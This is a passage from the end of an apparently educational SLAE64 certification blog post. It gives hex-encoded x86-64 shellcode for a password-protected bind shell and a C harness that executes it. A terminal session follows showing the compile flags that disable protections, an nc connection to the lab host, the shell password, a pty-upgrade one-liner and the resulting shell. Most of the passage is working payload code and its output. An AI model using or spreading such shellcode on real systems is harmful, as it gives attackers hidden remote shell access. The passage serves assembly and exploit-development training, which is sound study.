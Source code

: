 ```term
\x56\x48\xbe\x65\x20\x79\x6f\x75\x72\x20\x70\x56\x48\xbe\x49\x6e\x74\x72\x6f\x64\x75\x63\x56\x48\x89\xe6\xb2\x1c\x0f\x05\x48\x31\xc0\x48\x31\xd2\x52\x5d\x55\x48\x89\xe6\xb2\x1e\
x0f\x05\x48\x89\xe7\x48\x31\xc0\x48\x31\xf6\x48\x31\xd2\x48\xbe\x52\x70\x4b\x56\x45\x46\x62\x41\x56\x48\xbe\x57\x6a\x62\x6b\x4e\x33\x79\x51\x56\x48\x89\xe6\x48\x31\xc9\xb1\x10\x
f3\xa6\x0f\x85\x35\xff\xff\xff\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x66\x6a\x3b\x66\x58\x0f\x05"

;

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

#### EndGame

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1$ gcc bind_password.c -o bind_password -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1$ ./bind_password 
Shellcode Length:  353

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@whitecr0wz:~# rlwrap nc 192.168.100.205 9000 -v 
192.168.100.205: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.100.205] 9000 (?) open
Introduce your password:password
Incorrect credentials. Introduce your password:WjbkN3yQRpKVEFbAF
python3 -c 'import pty;pty.spawn("/bin/bash")'
whitecr0wz@SLAE64:/home/whitecr0wz/assembly/assignments/Assignment_1$ id 
id 
uid=1000(whitecr0wz) gid=1000(whitecr0wz) groups=1000(whitecr0wz),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
whitecr0wz@SLAE64:/home/whitecr0wz/assembly/assignments/Assignment_1$
```

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE64–27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/SLAE64/Assignment_1/).
